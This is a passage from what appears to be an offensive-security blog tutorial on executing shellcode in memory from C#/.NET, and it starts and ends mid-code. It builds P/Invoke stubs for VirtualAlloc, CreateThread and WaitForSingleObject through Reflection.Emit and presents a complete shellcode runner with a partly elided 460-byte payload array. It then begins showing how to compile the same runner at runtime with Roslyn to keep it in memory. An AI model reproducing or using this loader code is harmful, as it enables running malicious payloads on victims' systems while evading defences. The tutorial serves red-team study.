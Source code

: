                 callingConvention: CallingConventions.Standard, returnType: typeof(IntPtr), parameterTypes: new Type[] { typeof(IntPtr), typeof(uint), typeof(uint), typeof(uint) }, nativeCallConv: CallingConvention.Winapi, nativeCharSet: CharSet.Unicode);
            vtAlloc.SetCustomAttribute(dllImportKernel32Builder);
            var createThread = typeBuilder.DefinePInvokeMethod(name: "CreateThread", dllName: "kernel32.dll", attributes: MethodAttributes.Static | MethodAttributes.Public,
                callingConvention: CallingConventions.Standard, returnType: typeof(IntPtr), parameterTypes: new Type[] { typeof(IntPtr), typeof(uint), typeof(IntPtr), typeof(IntPtr), typeof(uint), typeof(IntPtr) }, nativeCallConv: CallingConvention.Winapi, nativeCharSet: CharSet.Unicode);
            createThread.SetCustomAttribute(dllImportKernel32Builder);
            var waitForSingle = typeBuilder.DefinePInvokeMethod(name: "WaitForSingleObject", dllName: "kernel32.dll", attributes: MethodAttributes.Static | MethodAttributes.Public,
                callingConvention: CallingConventions.Standard, returnType: typeof(UInt32), parameterTypes: new Type[] { typeof(IntPtr), typeof(UInt32) }, nativeCallConv: CallingConvention.Winapi, nativeCharSet: CharSet.Unicode);
            waitForSingle.SetCustomAttribute(dllImportKernel32Builder);
{% endhighlight %}
Now with the type (Program) on the new Assembly ShellCodeRunner, we can instantiate an instance of the Program type using the typeBuilder.
{% highlight csharp %}
Type shellCodeRunnerProgram = typeBuilder.CreateType();
{% endhighlight %}
Now with this Type type we can use the same technique we used to execute a function within SharpSploit to run the three Win32 API's VirtualAlloc, CreateThread and WaitForSingleObject to execute our shellcode (where our shellcode is stored in a byte array called "shellcode")!
{% highlight csharp %}
  byte[] shellcode = new byte[460] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
...
0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5 };

            int size = shellcode.Length;

            Type shellCodeRunnerProgram = typeBuilder.CreateType();
            IntPtr mem = IntPtr.Zero;
            mem = (IntPtr)shellCodeRunnerProgram.GetMethod("VirtualAlloc", BindingFlags.Static | BindingFlags.Public).Invoke(mem, new object[] { IntPtr.Zero, (uint)0x1000, (uint)0x3000, (uint)0x40 });
            Marshal.Copy(shellcode, 0, mem, size);
            IntPtr hThread = (IntPtr)shellCodeRunnerProgram.GetMethod("CreateThread", BindingFlags.Static | BindingFlags.Public).Invoke(mem, new object[] { IntPtr.Zero, (uint)0, mem, IntPtr.Zero, (uint)0, IntPtr.Zero });
            shellCodeRunnerProgram.GetMethod("WaitForSingleObject", BindingFlags.Static | BindingFlags.Public).Invoke(mem, new object[] { hThread, (UInt32)0xFFFFFFFF });
{% endhighlight %}
### Compiling a .NET Assembly from source code
One final way we can generate and/or use another .NET Assembly in memory is to compile a .NET Assembly from source code and load it from within another .NET Assembly. This is possible through the use of the .NET Compiler Platform (a.k.a Roslyn Compiler/API's). This is a collection of C#/VB.NET compiler and code analysis tools written by Microsoft (more information <a href="https://en.wikipedia.org/wiki/Roslyn_(compiler)">here</a>).<br/><br/> 
One of the most important pieces here is that it has built-in classes for C# to compile a .NET Assembly from C# source code. The C# components of the .NET Compiler Platform live in the Microsoft.CSharp namespace within these API's. <br/><br/>
For example, lets look back at our shellcode runner from before (stored in a string):
{% highlight csharp %}
string code = @"
using System;
using System.Collections.Generic;
using System.Text;
using System.Threading.Tasks;
using System.Runtime.InteropServices;

namespace ShellCodeRunner {

    public class Program {